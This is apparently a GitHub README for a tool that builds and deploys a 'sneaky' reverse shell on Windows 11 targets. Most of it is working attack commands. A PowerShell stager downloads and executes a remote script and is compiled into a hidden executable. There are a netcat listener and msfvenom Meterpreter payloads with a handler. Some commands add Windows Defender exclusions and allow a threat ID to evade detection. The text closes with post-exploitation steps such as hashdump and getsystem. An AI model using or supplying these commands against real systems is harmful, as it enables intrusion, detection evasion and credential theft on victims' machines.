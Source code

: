 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$ps_name = "reverse_shell.ps1"                # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute **sudo su** and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath/$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash

cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

6. Return to the Kali terminal and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

7. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
```


8. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```
 - If after entering the above commands you do not see any newly added rules in Windows Defender, repeat the procedure until they appear. If after some time there are still no changes, then check the launch of the hidden reverse shell with administrator privileges

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
